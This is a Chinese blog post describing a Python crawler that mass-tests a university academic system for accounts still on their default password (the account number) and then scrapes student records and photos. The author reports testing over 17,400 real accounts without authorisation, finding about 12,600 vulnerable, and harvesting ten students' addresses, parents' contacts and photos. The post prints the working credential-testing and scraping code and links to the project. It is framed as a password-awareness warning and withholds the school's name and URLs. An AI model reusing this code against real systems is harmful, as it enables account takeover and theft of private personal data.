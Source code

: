```yaml
---
layout:     post
title:      "Python 第一个爬虫-教务系统信息收集"
subtitle:   ""
date:       2018-02-24 09:25:00
categories: 
    - 爬虫
tags:
    - 爬虫
    - Python
---
```

## 初衷
**本文旨在提醒同学们及时修改密码，增强保护个人隐私的意识，因此代码中一些关键数据以及校名等信息不会公开！复制粘贴文章中的代码不会爬到任何东西。只是作为学习 Python 爬虫的一点总结而已！**
<!-- more -->
作者所在学校的教务系统安全防范措施可谓非常不严密，学生登录甚至不需要图形验证码。每年学生入学之后，学校下发的账号，初始密码不是无规律的，而是和账号完全一致！如果学生不及时修改密码，那么其他人可以轻松登录他的账号。登录后可以看到学生的学籍信息，包括高考报名时照片，家长联系方式等，联系地址甚至详细到几单元几楼几号门，**个人信息泄露情况非常严重！**

## 结果
先说结果。经过两天连写带调试，终于完成了对全校本科生 17400 多个在网账号的测试，其中有 12600 多个账号使用的还是初始密码。此处隐去校名，统计结果如下：

| 序号 | 学院 | 年级 | 在网账号 | 可爬账号 | 年级占比 |
| :-: | :-: | :-: | :-: | :-: | :-: |
|1   |本一   |2014   |3157   |1998   |63.29%   |
|2   |本一   |2015   |3328   |2234   |67.13%   |
|3   |本一   |2016   |3641   |3066   |84.21%   |
|4   |本一   |2017   |3497   |3326   |95.11%   |
|5   |本三   |2014   |1759   |303   |17.23%   |
|6   |本三    |2015   |1643   |620   |37.74%   |
|7   |本三    |2016   |1605   |1434   |89.35%   |
|8   |本三    |2017   |1552   |639   |41.17%   |

**介于初衷，只爬了 10 个账号的信息，以示严重性！**

![爬到的学籍信息](http://upload-images.jianshu.io/upload_images/7134080-ec8c310143b69f21.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## 过程
本人之前做过近 2 年的 Java 相关开发，对 HTTP 协议中常用的知识了解一些，再加上 Python 出了名的简洁易用，因此入门还是比较轻松的。去年有一段时间研究过一阵子 Python，使用的是 Scrapy 框架，所以这一次我也首先想到了 Scrapy。

Scrapy 这种框架适用的情形是：已经获取了需要爬取的页面的一系列 URL ，或者 URL 是成一定规律变化的，不需要登录或者登录一次拿到 Cookie 就可以拿着这个 Cookie 一直用了。但是教务系统完全相反，它需要每次都进行登录，也许 Scrapy 有办法，但也不会太简单，索性自己写。

这套教务系统虽然安全性不怎么样，但也已是一套成熟的产品了，功能和稳定性上还是很不错的。

![系统的登录界面](http://upload-images.jianshu.io/upload_images/7134080-286f834fd46caf89.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

首先使用 Firefox 浏览器的开发者工具查看 HTTP 通信的一些信息：

![登录请求 ( POST )](http://upload-images.jianshu.io/upload_images/7134080-3ab0ec0d031193cc.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

登录表单通过 POST 请求进行提交，参数是账号和密码，发送的也是明文

![表单参数](http://upload-images.jianshu.io/upload_images/7134080-986180eedc73180d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

服务器返回的响应中 Set-Cookie 就相当于给用户下发的令牌，用户下一次请求的时候带上这块令牌，服务器就能认出来这个用户是否刚登录过。这个令牌是有时间限制的，每次请求都会刷新一次时间，如果两次请求之间间隔时间超过设定值，那么服务器就不认识用户了，这次会话就结束了，需要重新登录。

![登录的响应体](http://upload-images.jianshu.io/upload_images/7134080-d14eaf5437d7dfc4.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

刚开始使用的是 requests ，用 for 循环实现，由于 requests 是同步的，所以效率很低，还会经常卡死。后来改成了协程，用的 gevent + urllib3，效率提升了上百倍。解析 HTML 用的 lxml 的 etree，图片的保存用 PIL 的 Image。

先引入依赖
```python
import sys
import logging
import gevent
import urllib3
import pathlib
from PIL import Image
from io import BytesIO
from lxml import etree
```
创建 HTTP 连接池
```python
http = urllib3.HTTPConnectionPool(
    host=settings.SERVER_HOST,
    port=settings.SERVER_PORT,
    strict=False,
    maxsize=100,
    block=False,
    retries=100,
    timeout=10
)
```

请求头的一些固定信息可以预先设定好，伪装浏览器
```python
header = {'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
    'Cache-Control': 'max-age=0',
    'Connection': 'Keep-alive',
    'Host': settings.SERVER_HOST,
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0'
}
```
登录并验证是否是初始密码
```python
# 账号校验器
class InfoValidate(object):
    def __init__(self):
        self.logger = InfoMain.logger
        self.http = InfoMain.http
        # 有效账号
        self.account_valid = []
        # 可爬账号
        self.account_available = []

    def validate(self, all_account):
        # 将所有校验过程加入队列
        jobs = [gevent.spawn(self.validate_account, self.http, a) for a in all_account]
        gevent.joinall(jobs, timeout=0)

    def validate_account(self, http, account):
        # 登录请求参数
        param = {"zjh": account, "mm": account}
        header = headers.header
        response = http.request('POST', settings.URL_LOGIN, fields=param, headers=header)
        self.logger.info('发送请求>>{}'.format(param))
        self.logger.info(response.status)
        # 响应体解码
        res_text = response.data.decode('GB2312', 'ignore')

        if res_text.find('密码不正确') > -1:
            # 密码有误
            self.account_valid.append(account)
        elif not res_text.find('证件号不存在') > -1:
            # 账号可爬
            self.account_available.append(account)
            self.account_valid.append(account)
            self.logger.info("账号可用>>>{}".format(account))
```
至此已经获取了所有初始密码未修改的账号了，下面研究一下，要爬取的学籍信息页的规律

![学籍信息页](http://upload-images.jianshu.io/upload_images/7134080-974fdb14f78e7210.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


![table 的结构](http://upload-images.jianshu.io/upload_images/7134080-ed103827cea8be42.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

一系列的信息都包裹在 ```<td width = "275"></td> ```之间，对应的 xpath 表达式即为 ```//td[starts-with(@width,"275")]/text()```

基于之前对账号的测试，爬取学籍信息

```python
# 信息收集器
class InfoCollect(object):
    def __init__(self):
        self.logger = InfoMain.logger
        self.http = InfoMain.http
        # 功能模块
        self.mod_get_roll_info = settings.MOD_ROLL_INFO
        self.mod_get_roll_img = settings.MOD_ROLL_IMG

    def get_info_queue(self, accounts):
        # 将所有信息收集过程加入队列
        jobs = [gevent.spawn(self.get_info, a) for a in accounts]
        gevent.joinall(jobs, timeout=0)

    def get_info(self, stuid):
        # 登录
        param = {'zjh': stuid, 'mm': stuid}
        response = self.http.request('POST', settings.URL_LOGIN, fields=param)
        # 保存 Cookie
        cookie = response.headers['Set-Cookie'].replace('; path=/', '')
        header = headers.header
        header['cookie'] = cookie
        # 学籍信息
        if self.mod_get_roll_info:
            # 带 Cookie 访问学籍信息页
            response_xjxx = self.http.request('GET', settings.URL_XJXX, headers=header)
            text = response_xjxx.data.decode('GB2312', 'ignore')
            # 解析页面内容
            selector = etree.HTML(text)
            text_arr = selector.xpath('//td[starts-with(@width,"275")]/text()')
            # 学籍信息
            result = []
            for info in text_arr:
                result.append(info.strip())
            self.save_info(result)
        # 学籍照片
        if self.mod_get_roll_img:
            response_xjzp = self.http.request('GET', settings.URL_XJZP, headers=header)
            image = Image.open(BytesIO(response_xjzp.data))
            setpath = settings.PATH_IMG_SAVE
            path = pathlib.Path(setpath)
            if not path.exists():
                path.mkdir()
            setpath = setpath + '/' + stuid + '.jpg'
            image.save(setpath)
            self.logger.info('保存照片>>>{}'.format(setpath))

        # 登出
        self.http.request('POST', settings.URL_LOGOUT, headers=header)
```

至此，已经实现了所有信息的获取以及照片的保存。

没改密码的同学们应该看到了，获取个人信息其实很简单，关键在于增强自己保护个人信息的意识。

相关开源项目：URP_Spider  [https://github.com/JamesZBL/URP_Spider](https://github.com/JamesZBL/URP_Spider)
